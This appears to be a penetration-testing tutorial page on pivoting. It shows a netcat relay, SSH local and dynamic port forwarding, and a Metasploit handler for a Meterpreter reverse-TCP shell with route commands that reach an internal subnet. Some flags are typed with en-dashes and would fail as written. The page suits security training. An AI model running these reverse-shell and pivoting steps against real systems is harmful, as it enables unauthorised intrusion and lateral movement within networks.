 # Pivoting

The technique of using one compromised machine to access another is called pivoting.

## Netcat Relay

```Shell
$mknod backpipe p
$nc –l –p 80 0<backpipe | nc 192.168.128.128 80 1>backpipe
```

![](../.gitbook/assets/netcat_relay.png)

## SSH Local Port Forwarding

SSH local port forwarding is set up by the command below:

```Shell
$ ssh –L port:destination_host:destination_port username@pivot_host
```

`-L` indicates to use local port forwarding

![](../.gitbook/assets/ssh_local.png)

## SSH Dynamic Port Forwarding

The syntax is as below:

```Shell
ssh –D address:port –f –N username@pivot_host
```

`-D` indicates to use dynamic port forwarding, `address` is local machine \(127.0.0.1\)

An example is shown below:

```
# ssh -D 127.0.0.1:9150 -f -N user@192.168.112.132`
user@192.168.112.132's password:
```

![](../.gitbook/assets/ssh_dynamic_port_fwd.png)

 _**SSH dynamic port forwarding can access multiple systems on different ports.**_

### Pivot with Metasploit and Meterpreter Sessions

**Step 1** Start the multi/handler exploit

```Shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.112.132
LHOST => 192.168.112.132
msf exploit(handler) > set LPORT 2222
LPORT => 2222
msf exploit(handler) > run
```

**Step 2** Run the executable on the compromised host and establish a Meterpreter session

**Step 3** Set up pivot by the metasploit route command

```Shell
msf exploit(handler) > route add 192.168.128.0 255.255.255.0 1
[*] Route added
msf auxiliary(tcp) > route print
```

**Step 4** Now metasploit modules can pivot through the compromised host and target  
systems on the internal network \(192.168.128.0/24\).

## Pivoting Technique Summary

### ![](../.gitbook/assets/pivot_summary.png)

## Interaction Between Web Application Penetration Testing Tools and pivoting

## ![](../.gitbook/assets/web_app_tool_pivot.png)

